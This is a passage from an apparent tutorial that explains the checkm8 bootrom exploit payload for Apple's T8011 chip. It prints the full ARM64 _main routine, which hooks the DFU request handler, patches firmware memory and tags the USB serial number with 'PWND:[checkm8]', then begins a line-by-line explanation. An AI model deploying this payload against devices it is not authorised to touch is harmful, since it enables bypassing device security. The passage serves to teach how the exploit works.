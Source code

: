 Now, I will go through the payload and aim to explain exactly what it does at each step.

### Explaining the payload

While ARM64 assembly may seem rather daunting, you will see that it actually makes a lot of sense once you understand what each instruction does. Here is the `_main` function from the main checkm8 payload for T8011, which also contains another label as part of it:

```asm
_main:
  stp x29, x30, [sp, #-0x10]!
  ldr x0, =payload_dest
  ldr x2, =dfu_handle_bus_reset
  str xzr, [x2]
  ldr x2, =dfu_handle_request
  add x1, x0, #0xC
  str x1, [x2]
  adr x1, _main
  ldr x2, =payload_off
  add x1, x1, x2
  ldr x2, =payload_sz
  ldr x3, =memcpy_addr
  blr x3
  ldr x0, =gUSBSerialNumber
_find_zero_loop:
  add x0, x0, #1
  ldrb w1, [x0]
  cbnz w1, _find_zero_loop
  adr x1, PWND_STR
  ldp x2, x3, [x1]
  stp x2, x3, [x0]
  ldr x0, =gUSBSerialNumber
  ldr x1, =usb_create_string_descriptor
  blr x1
  ldr x1, =usb_serial_number_string_descriptor
  strb w0, [x1]
  mov w0, #0xD2800000
  ldr x1, =patch_addr
  str w0, [x1]
  ldp x29, x30, [sp], #0x10
  ret

PWND_STR:
.asciz " PWND:[checkm8]"
```

The first line simply stores the new link register and frame pointer, as any program would do when branching to a new function. However, after this line, the proper payload begins.

```
ldr x0, =payload_dest
ldr x2, =dfu_handle_bus_reset
str xzr, [x2]
```
